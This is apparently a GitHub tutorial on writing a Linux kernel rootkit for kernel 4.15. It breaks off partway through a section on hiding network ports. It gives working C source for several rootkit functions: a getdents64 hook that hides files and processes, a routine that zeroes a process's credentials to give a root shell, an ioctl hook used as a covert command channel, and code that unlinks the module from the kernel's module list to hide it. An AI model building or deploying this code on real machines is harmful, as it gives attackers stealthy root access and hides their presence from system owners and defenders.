




# rootkit

based on linux kernel 4.15, default for ubuntu 16.04LTS


## 0.Background Knowledge & Misc

​	Rootkit is a kind of kernel module, it gets loaded to the kernel and provide functions for the attacker from kernel space. Refer to the reference link 1 to find out some basic introduction about linux kernel module.

​	Refer to the reference link 2 to find out some introduction about linux kernel rootkit.


### 0.1 ways to get syscall table load address

#### 1.The simplest way: *kallsyms_lookup_name()*

*kallsyms_lookup_name()* is defined in *linux/kallsyms.h*, it take a symbol name as input and return its load address. There is a global variable name *sys_call_table* which stores the load address of syscall table.

```c
#include <linux/kallsyms.h>

static unsigned long get_syscall_table(void){
    unsigned long addr;
    addr = kallsyms_lookup_name("sys_call_table");
    if(!addr) return 0;
    syscall_table_load = (void**)addr;
    return addr;
}
```

#### 2.scan the memory

#### 3.read /proc/kallsyms


Method 2 is a little bit complicate comparing with method1. Method 3 is not that practical, for opening and reading a file in kernel space is not easy


Refer to [this post](https://infosecwriteups.com/linux-kernel-module-rootkit-syscall-table-hijacking-8f1bc0bd099c) for some more details


### 0.2 ways to get current task_struct

​	When debuging a kernel with debug info, there is a global variable names *current_task* pointing to current *task_struct*. When programing a kernel module, there is a macro *current* which will give us the pointer to the current *task_struct*, the macro is defined in *arch/x86/include/asm/current.h*(for x86 machine).


### 0.3 ways to compile a kernel module for a pre-compiled kernel

​	Generally we compile and load a module in the same kernel environment, but indeed there are some times when we need to build a kernel module here and load it to some other kernels. Or when we want to build a module and load it to a tiny version of kernel in QEMU to debug it, it is impractical to build a compile system in the tiby version of kernel, and even the tiny version has the same version as the kernel you build the module, there could still be difference(subversion of the kernel) between them which can cause module loading failure.

​	Correct way to do it is as follows:

1. you download the Linux kernel souce ---- which is also needed when we build it and load it with QEMU

2. write the Makefile as follows

   ```makefile
   obj-m := rootkit.o
   KERNELDIR := ../linux-5.4
   PWD := $(shell pwd)
   OUTPUT := $(obj-m) $(obj-m:.o=.ko) $(obj-m:.o=.mod.o) $(obj-m:.o=.mod.c)
   
   modules:
           $(MAKE) -C $(KERNELDIR) M=$(PWD) modules
   
   ```


3. make

​	The module you get should have no problem loading into the QEMU virtual machine. The idea is similar when you want to build a kernel module for a pre-compiled kernel version.


## 1.Hide Files

### linux kernel syscall: getdents

​	The kernel provide a syscall names *getdents* for iterating through a directory and return its entris. That is exactly how the *ls* find files inside a directory. Let's strace a *ls* command and see how it works



​	*ls* made a lot of syscalls, but we only need to pay attention to  the 2 getdents64() syscalls. Generally speaking, *ls* opens the directory, pass its fd to *getdents* and get contents in it. Let's check how the syscall is implemented in Linux.


​	The syscall *getdents()*  was defined in fs/readdir.c

```c
SYSCALL_DEFINE3(getdents64, unsigned int, fd,
		struct linux_dirent64 __user *, dirent, unsigned int, count)
{
	struct fd f;
	struct linux_dirent64 __user * lastdirent;
	struct getdents_callback64 buf = {
		.ctx.actor = filldir64,
		.count = count,
		.current_dir = dirent
	};
	int error;

	if (!access_ok(VERIFY_WRITE, dirent, count))
		return -EFAULT;

	f = fdget_pos(fd);
	if (!f.file)
		return -EBADF;

	error = iterate_dir(f.file, &buf.ctx);
	if (error >= 0)
		error = buf.error;
	lastdirent = buf.previous;
	if (lastdirent) {
		typeof(lastdirent->d_off) d_off = buf.ctx.pos;
		if (__put_user(d_off, &lastdirent->d_off))
			error = -EFAULT;
		else
			error = count - buf.count;
	}
	fdput_pos(f);
	return error;
}
```


*getdents()* calls *iterate_dir()*, which is also defined in fs/readdir.c


```c
int iterate_dir(struct file *file, struct dir_context *ctx)
{
	struct inode *inode = file_inode(file);
	bool shared = false;
	int res = -ENOTDIR;
	if (file->f_op->iterate_shared)
		shared = true;
	else if (!file->f_op->iterate)
		goto out;

	res = security_file_permission(file, MAY_READ);
	if (res)
		goto out;

	if (shared)
		res = down_read_killable(&inode->i_rwsem);
	else
		res = down_write_killable(&inode->i_rwsem);
	if (res)
		goto out;

	res = -ENOENT;
	if (!IS_DEADDIR(inode)) {
		ctx->pos = file->f_pos;
		if (shared)
			res = file->f_op->iterate_shared(file, ctx);
		else
			res = file->f_op->iterate(file, ctx);
		file->f_pos = ctx->pos;
		fsnotify_access(file);
		file_accessed(file);
	}
	if (shared)
		inode_unlock_shared(inode);
	else
		inode_unlock(inode);
out:
	return res;
}
```


*iterate_dir()* calls *file->f_op->iterate()* or *file->f_op_iterate_shared()*, which are function pointers in *file_operation* of the *file* struct. For ext4 filesystem, *iterate_dir()* calls the latter one, which is defined in fs/ext4/dir.c

```c
static int ext4_dx_readdir(struct file *file, struct dir_context *ctx)
{
	struct dir_private_info *info = file->private_data;
	struct inode *inode = file_inode(file);
	struct fname *fname;
	int	ret;

	if (!info) {
		info = ext4_htree_create_dir_info(file, ctx->pos);
		if (!info)
			return -ENOMEM;
		file->private_data = info;
	}

	if (ctx->pos == ext4_get_htree_eof(file))
		return 0;	/* EOF */
.....
    
```


​	It's a long function which actually does the readdir operation. 


​	The user pass three parameters to the *getdents()*: (1) an fd pointer to which dir you want to read; (2) a pointer to a user space buffer, which will be used by the *getdents()* to write directory entries into; (3) a unsigned int specify the buffer len. 

​	And *getdents()* calls *iterate()* or *iterate_share()* share, which is defined in the *file_operation* struct of the *file* struct of the fd. The *iterate()* will do the actual job and write the directory entris to the user space buffer.

​	Each write back directory entry is in the form of *linux_dirent*,  defined as follows, read *man getdent* for more detail

```c
struct linux_dirent {
               unsigned long  d_ino;     /* Inode number */
               unsigned long  d_off;     /* Offset to next linux_dirent */
               unsigned short d_reclen;  /* Length of this linux_dirent */
               char           d_name[];  /* Filename (null-terminated) */
                                 /* length is actually (d_reclen - 2 -
                                    offsetof(struct linux_dirent, d_name)) */
               /*
               char           pad;       // Zero padding byte
               char           d_type;    // File type (only since Linux
                                         // 2.6.4); offset is (d_reclen - 1)
               */
           }
```

​	We only need to pay attention to *d_reclen*, which tells us how long this entry is so we can move to the next one, and *d_name*, which is the entry name.


​	Here is an example using the syscall *getdents()*, the code is as follows

```c
#include<sys/syscall.h>
#include<fcntl.h>
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>
#include<assert.h>


struct linux_dirent {
    unsigned long  d_ino;
    off_t          d_off;
    unsigned short d_reclen;
    char           d_name[];
};

int main(){
    int fd;
    long int nread;
    char buf[4096];     // the buffer that accepts write back info of getdents()
    struct linux_dirent* p;

    fd = open("/", O_DIRECTORY);
    if(fd == -1){
        perror("[-] open file failed");
        exit(-1);
    }

    nread = syscall(SYS_getdents, fd, buf, 4096);
    if(nread == -1){
        perror("[-] syscall(getdents) failed");
        exit(-1);
    }

    printf("[+] read %ld bytes by getdents()\n", nread);
    for(int pos=0;pos<nread;){
        p = (struct linux_dirent*)(buf + pos);
        printf("{d_ino=%lu, d_off=%ld, d_reclen=%hu, d_name=%s}\n", p->d_ino, p->d_off, p->d_reclen, p->d_name);
        pos += p->d_reclen; // move to the next linux_dirent
    }
    return 0;
}

```

We opens the root directory and get  its entris by calling *getdents()* directly, here is what it gives us




For 64-bit kernels things are slightly different. The struct *linux_dirent* becomes *linux_dirent64*, which is defined as

```c
struct linux_dirent64 {
               ino64_t        d_ino;    /* 64-bit inode number */
               off64_t        d_off;    /* 64-bit offset to next structure */
               unsigned short d_reclen; /* Size of this dirent */
               unsigned char  d_type;   /* File type */
               char           d_name[]; /* Filename (null-terminated) */
};
```

there are some extra members in the struct, but not important enough. And the syscall becomes *getdents64*, which acts just like *getdents*


### hook *getdents()* to hide files

Based on the implementation of *getdents*, we can hide a file by

1. hijack *getdents()* syscall to our *hack_getdents()*
2. in *hack_getdents()*, we first call the real *getdents()*, store its return value. When *getdents()* returns, the directory entris have been written to the user space buffer. We can copy it to kernel space by *copy_from_user()*
3. we traverse the entris in kernel space buffer, for each entry--which is a *linux_dirent* struct---we compare the *d_name* with the file name we want to hide. If matches, we remove the entry from the buffer
4. after traversing, we copy the buffer back to user by *copy_to_user()*

implementation is as follow

```c
static int hack_getdents64(unsigned int fd, struct linux_dirent64 __user *dirent, unsigned int count){
    int retval, len_left;
    char hidename[MAX_CLOAK_FILE_NAME_LEN];
    struct linux_dirent64 *dirent_buf, *dirent_c;
    unsigned short d_len;
    retval = (*real_getdents64)(fd, dirent, count);
    if(retval > 0){ // getdents64() have returned something, copy it from userspace, traverse it to find and hide the file name we want to hide, then copy it back to userspace
        dirent_buf = (struct linux_dirent64*)kmalloc(retval, GFP_KERNEL);
        dirent_c = dirent_buf;
        copy_from_user(dirent_buf, dirent, retval);

        len_left = retval;
        while(len_left > 0){
            d_len = dirent_c->d_reclen;
            len_left -= d_len;
            if(is_file_cloaked((char*)&(dirent_c->d_name))){
                memset(hidename, 0, MAX_CLOAK_FILE_NAME_LEN);
                memcpy(&hidename, (char*)&(dirent_c->d_name), strlen((char*)&(dirent_c->d_name)));
                // the dirent is the file we want to hide, remove it from dirent_buf
                if(len_left != 0){
                    // in case the dirent is not the last one, copy memory forward to overwrite the struct
                    memmove(dirent_c, (char*)((unsigned long)dirent_c+d_len), len_left);
                }else{
                    // in case the dirent is the last one, overwrite the struct to 0
                    memset(dirent_c, 0, d_len);
                }
                retval -= d_len;
                printk("[*] successful hide file %s\n", (char*)&hidename);
                continue;
            }

            if(dirent_c->d_reclen == 0){
                // in case some fs driver not implementing the getdents() properly, unlikely?
                printk("[*] shitty fs implementation\n");
                retval -= len_left;
                len_left = 0;
            }
            if(len_left!=0) dirent_c = (struct linux_dirent64*)((unsigned long)dirent_c+d_len);
        }
        // we traversed all dirents struct returned by getdents64(), now copy the modifid buf to user
        copy_to_user(dirent, dirent_buf, retval);
        kfree(dirent_buf);
    }
    return retval;
}
```

There are some auxilary functions and data structures to help with the function, both are simple so I will ignore them.

```c
struct cloak_ent{
    unsigned int name_len;
    char name_buf[MAX_CLOAK_FILE_NAME_LEN];
};


static int add_cloak_file_name(char* name){
    int name_len;
    int i_ent;

    name_len = strlen(name);
    for(i_ent=0;i_ent<MAX_CLOAK_FILE_COUNT;i_ent++){
        if(!cloak_ent_array[i_ent].name_len) break;
    }
    if(i_ent == MAX_CLOAK_FILE_COUNT-1 && cloak_ent_array[i_ent].name_len) return -1; // too many files to fide

    memset((char*)&cloak_ent_array[i_ent].name_buf, 0, name_len);
    memcpy((char*)&cloak_ent_array[i_ent].name_buf, name, name_len);
    cloak_ent_array[i_ent].name_len = name_len;
    return i_ent;
}


static int is_file_cloaked(char* name){
    unsigned int name_len = strlen(name);
    int i_ent;
    for(i_ent=0;i_ent<MAX_CLOAK_FILE_COUNT;i_ent++){
        if(cloak_ent_array[i_ent].name_len == name_len){
            if(!strcmp((char*)&cloak_ent_array[i_ent].name_buf, name)){
                return i_ent;
            }
        }
    }
    return -1;
}
```


The implementation is simple, yet there is a trivial flaw: the *fake_getdents64()* will hide files with the same name in the whole file system. Actually, a better implementation is: we specify a definite path for the file we want to hide, and for each call to *getdents64()* we check the fd's definite path and compare it with our file. The fd's definite path can be obtained by

```c
current_task->files.fd_array[FD].path.dentry->d_dname
current_task->files.fd_array[FD].path.dentry->d_parent->d_name
....
```

Yet the efficiency can be a problem


## 2. prompt a root shell

The security context of a process is defined in the *task_struct*, as

```c
struct task_struct {
    
    .....
    
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;

    .....
        
}
```

the struct *cred* is defined as

```c
/*
 * The security context of a task
 *
 * The parts of the context break down into two categories:
 *
 *  (1) The objective context of a task.  These parts are used when some other
 *	task is attempting to affect this one.
 *
 *  (2) The subjective context.  These details are used when the task is acting
 *	upon another object, be that a file, a task, a key or whatever.
 *
 * Note that some members of this structure belong to both categories - the
 * LSM security pointer for instance.
 *
 * A task has two security pointers.  task->real_cred points to the objective
 * context that defines that task's actual details.  The objective part of this
 * context is used whenever that task is acted upon.
 *
 * task->cred points to the subjective context that defines the details of how
 * that task is going to act upon another object.  This may be overridden
 * temporarily to point to another security context, but normally points to the
 * same context as task->real_cred.
 */
struct cred {
	atomic_t	usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	unsigned	securebits;	/* SUID-less security management */
	kernel_cap_t	cap_inheritable; /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	/* caps we're permitted */
	kernel_cap_t	cap_effective;	/* caps we can actually use */
	kernel_cap_t	cap_bset;	/* capability bounding set */
	kernel_cap_t	cap_ambient;	/* Ambient capability set */
#ifdef CONFIG_KEYS
	unsigned char	jit_keyring;	/* default keyring to attach requested
					 * keys to */
	struct key __rcu *session_keyring; /* keyring inherited over fork */
	struct key	*process_keyring; /* keyring private to this process */
	struct key	*thread_keyring; /* keyring private to this thread */
	struct key	*request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
	void		*security;	/* subjective LSM security */
#endif
	struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
	struct group_info *group_info;	/* supplementary groups for euid/fsgid */
	struct rcu_head	rcu;		/* RCU deletion hook */
} __randomize_layout;

```


There are three credential for a process. For the first one, it's reasonable to assume that it stands for the tracer's credential. And the for the rest two, the documentation of *cred* struct have clearly explained how the they work

1. the *real_cred* in *task_struct* is called objective context. It is reffered to when the task is being acted on.
2. the *cred* in *task_struct* is called the subjective context, and it is reffered to when the task is trying to act on something else, like opening a file or fork a new process.


​	Generally, when we want to modify a process's credential, we only need to to modify its *cred* struct, which stands for the "subjective" context. To make a process run as root, we simply overwrite the *uid*, *gid*, *suid*, *sgid*, *euid*, *egid*, *fsuid*, *fdgid* (8 fields in total) to 0 to give a process highest credential to do almost evething, including prompt us a root shell.

​	The implementation is as follow

```c
static int hack_getroot(void){
    int* ids;
    int i;
    // the macro current is defined in arch/x86/include/asm/current.h, which will return us the pointer to current task struct
    // the cred field is defined as static, so must be changed by dereferrecing its pointer
    ids = (int*)current->cred;
    for(i=1;i<9;i++) ids[i] = 0;
    return 1;
}
```

 	We call this function from user space, and the root kit  will retset the calling function's credential, then we prompt a shell by 

```c
system("/bin/sh");
```

and it will be a root one;


## 3. hook *ioctl()*

It's a common trick in rootkit to hook the *ioctl()* syscall to pass command to the rootkit from user space after it gets load into the kernel. The design is simple:

1. we hook the *ioctl()* syscall, forward the normal syscalls to the real *ioctl()*, and at the same time:
2. we define a magic magic for our rootkit operation and our *ioctl()* hook function will recognize it and do the corresponding operations for us. And we need to define some structs to pass to the rootkit to tell it what we want to do and how it should be done
3. the struct we pass to the rootkit should contain a magic number to ensure we are indeed intercepting a command for the rootkit. The struct is mainly for passing execution parameters to the rootkit, like the file name we want to hide. Be aware that the only argument we can pass to the kernel module using *ioctl()* is a pointer, and generally it points to the user space. So before we dereferrencing the parameters in the struct fields, we need to copy it to kernel space with *copy_from_user()*

The implementation is as follows

```c
static int hack_ioctl(unsigned int fd, unsigned int cmd, unsigned long arg){
    if(cmd == ROOTKIT_IOCTL_MAGIC){
        struct rootkit_cmd cmd;
        copy_from_user(&cmd, (void*)arg, sizeof(struct rootkit_cmd));   // the arg points to user space, copy it to kernel space
        if(cmd.magic_head == ROOTKIT_CMD_MAGIC_HEAD && cmd.magic_tail == ROOTKIT_CMD_MAGIC_TAIL){
            switch(cmd.cmd_id){
                case ROOTKIT_CMD_ID_HIDEFILE:{
                    struct cloak_file_cmd cfc;
                    copy_from_user(&cfc, (void*)cmd.real_arg, sizeof(struct cloak_file_cmd));
                    return add_cloak_file_name((char*)&cfc.name);
                }
                case ROOTKIT_CMD_ID_GETROOT:{
                    printk("[+] rootkit: getroot() called\n");
                    return hack_getroot();
                }
                case ROOTKIT_CMD_ID_TEST:{
                    printk("[+] work correctly\n");
                    return 1;
                }
            }
        }
    }
    return (*real_ioctl)(fd, cmd, arg);
}

```


The *hack_ioctl()* function will be frequently modified due to new functions adding to the rootkit. The changes will be trivial and will not be mentioned unless neccessary.


## 4. hide process

​	When we use the bash command *ps* to inspect the processes running on the OS, it simply read the entries under the */proc* directory. Each process will have a directory named after its pid under the */proc* directory, describing system-related information of it(e.g. the memory map of the process).

​	So hiding a process is exactly like hiding a file. When *ps* calles *getdent()* to read entris under */proc*, we compare the directory name with the pid we want to hide.  There is nothing more we need to implement


## 5. hide modules

​	When we load a module into the kernel, a *module* struct is allocated to describe the module

```c
struct module {
	enum module_state state;

	/* Member of list of modules */
	struct list_head list;

	/* Unique handle for this module */
	char name[MODULE_NAME_LEN];

	/* Sysfs stuff. */
	struct module_kobject mkobj;
	struct module_attribute *modinfo_attrs;
	const char *version;
	const char *srcversion;
	struct kobject *holders_dir;

	/* Exported symbols */
	const struct kernel_symbol *syms;
	const s32 *crcs;
	unsigned int num_syms;
    
    .....
        
}
```


​	All modules in kernel is linked by the *list* field to form a single-linked list. When we show the modules in the kernel by bash command *lsmod*, it first read a special file named */proc/modules* to get a list of module name loaded into the kernel, then it traverses the */sys/module* directory to get the detial information for each of them.	 





> The file /proc/modules is a special virtual file called **sequence file**. Its implementation is in /kernel/module.c, in which defines the seq-related functions(names *m_start*, *m_show*, ...) to print formatted information of each module by traversing the single-linked list. The creation of this virtual file is by *proc_modules_init()*, read the source code for more detial


​	So to hide a module is simple: we remove the module we want to hide from the single-linked list. The single-linked list is implemented based on *struct list_head* whose definition is under *include/types.h*. And Linux kernel provides us a punch of functions to manipulate the linked list in *include/list.h* (e.g. *list_del*, *list_add*, ..). The implementation is as follows

```c
static int hide_self(void){
    if(rootkit_cloaked) return 1;   // never cloak the rootkit twice!
    prev_mod = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    rootkit_cloaked = 1;
    return 1;
}

static int show_self(void){
    if(!rootkit_cloaked) return 1;  // never uncloak the rootkit twice!
    list_add(&THIS_MODULE->list, prev_mod);
    rootkit_cloaked = 0;
    return 1;
}

static int hide_module_name(char* name){
    int i;
    struct list_head* lh_p;
    struct module* mod_p;
    for(i=0;i<MAX_CLOAK_MOD_COUNT;i++){ // find a empty entry for the new hide request
        if(cloak_mod_ent_array[i].prev_mod == NULL) break;
    }
    if(cloak_mod_ent_array[i].prev_mod && i==MAX_CLOAK_MOD_COUNT-1) return -1;  // too many module to hide

    // find the module
    for(lh_p=&THIS_MODULE->list;lh_p!=NULL;){    // travese backward first
        mod_p = list_entry(lh_p, struct module, list);
        if(!strcmp(mod_p->name, name)){ // found!
            goto out;
        }
        lh_p = mod_p->list.next;
    }
    for(lh_p=&THIS_MODULE->list;lh_p!=NULL;){
        mod_p = list_entry(lh_p, struct module, list);
        if(!strcmp(mod_p->name, name)){
            goto out;
        }
        lh_p = mod_p->list.prev;
    }
    return -2; // not found

out:
    cloak_mod_ent_array[i].prev_mod = mod_p->list.prev;
    strcpy(cloak_mod_ent_array[i].name_buf, mod_p->name);
    list_del(&mod_p->list);
    return 1;
}

```

​	We should keep the previous module of the module we hide, to add it back to the module list.

​	*THIS_MODULE* macro gives us the pointer to current module's *module* struct. We start our traverse here to find the module we want to hide. Also, there are also some auxilary data structure to help *hide_module_name()*, similar to the ones in hiding a file

```c
struct cloak_mod_cmd{
    char name[MAX_CLOAK_MOD_NAME_LEN];
};

struct cloak_mod_ent{
    struct list_head* prev_mod;
    char name_buf[MAX_CLOAK_MOD_NAME_LEN];
};

static struct list_head* prev_mod;  // previous module of rootkit
static struct cloak_mod_ent cloak_mod_ent_array[MAX_CLOAK_MOD_COUNT];

```


​	After we hiding a module, the read to */proc/modules* will no longer return the module's information. But there is still detail information stored in the */sys/modules/* directories for the cloaked module. It is a good idea to add the directory name(the rootkits's name) to the cloak file array to make it totally invisible.


## 6. hide ports

### kernel mechanisms

​	The bash command *netstat* reads the sequence file */proc/net/tcp* (for ipv4) to get network related information from the kernel. The sequence file related functions are defined in *net/ipv4/tcp_ipv4.c*. The output we get from *netstat* is issued by *tcp4_seq_show()* function, which is the "show" function of the sequence file. The definition is as follows:

```c
static int tcp4_seq_show(struct seq_file *seq, void *v)
{
	struct tcp_iter_state *st;
	struct sock *sk = v;

	seq_setwidth(seq, TMPSZ - 1);
	if (v == SEQ_START_TOKEN) {
		seq_puts(seq, "  sl  local_address rem_address   st tx_queue "
			   "rx_queue tr tm->when retrnsmt   uid  timeout "
			   "inode");
		goto out;
	}
	st = seq->private;

	if (sk->sk_state == TCP_TIME_WAIT)
		get_timewait4_sock(v, seq, st->num);
	else if (sk->sk_state == TCP_NEW_SYN_RECV)
		get_openreq4(v, seq, st->num);
	else
		get_tcp4_sock(v, seq, st->num);
out:
	seq_pad(seq, '\n');
	return 0;
}
```

​	When the sequence file */proc/net/tcp* is opened, this function is called during the iteration of each *sock* struct to print its information. The *tcp4_seq_show* is a member in

```c
static struct tcp_seq_afinfo tcp4_seq_afinfo = {
	.name		= "tcp",
	.family		= AF_INET,
	.seq_fops	= &tcp_afinfo_seq_fops,
	.seq_ops	= {
		.show		= tcp4_seq_show,
	},
};

static const struct file_operations tcp_afinfo_seq_fops = {
	.owner   = THIS_MODULE,
	.open    = tcp_seq_open,
	.read    = seq_read,
	.llseek  = seq_lseek,
	.release = seq_release_net
};
```

​	And this struct in referrenced when register the sequence file in

```c
static int __net_init tcp4_proc_init_net(struct net *net)
{
	return tcp_proc_register(net, &tcp4_seq_afinfo);
}

int tcp_proc_register(struct net *net, struct tcp_seq_afinfo *afinfo)
{
	int rc = 0;
	struct proc_dir_entry *p;

	afinfo->seq_ops.start		= tcp_seq_start;
	afinfo->seq_ops.next		= tcp_seq_next;
	afinfo->seq_ops.stop		= tcp_seq_stop;

	p = proc_create_data(afinfo->name, S_IRUGO, net->proc_net,
			     afinfo->seq_fops, afinfo);
	if (!p)
		rc = -ENOMEM;
	return rc;
}
EXPORT_SYMBOL(tcp_proc_register);
```

​	In *tcp_proc_register()*, *proc_create_data()* is called and the *tcp4_seq_afinfo* is passed to it. The definition of *proc_create_data()* is as follows, in *fs/proc/generic.c*

```c
struct proc_dir_entry *proc_create_data(const char *name, umode_t mode,
					struct proc_dir_entry *parent,
					const struct file_operations *proc_fops,
					void *data)
{
	struct proc_dir_entry *pde;
	if ((mode & S_IFMT) == 0)
		mode |= S_IFREG;

	if (!S_ISREG(mode)) {
		WARN_ON(1);	/* use proc_mkdir() */
		return NULL;
	}

	BUG_ON(proc_fops == NULL);

	if ((mode & S_IALLUGO) == 0)
		mode |= S_IRUGO;
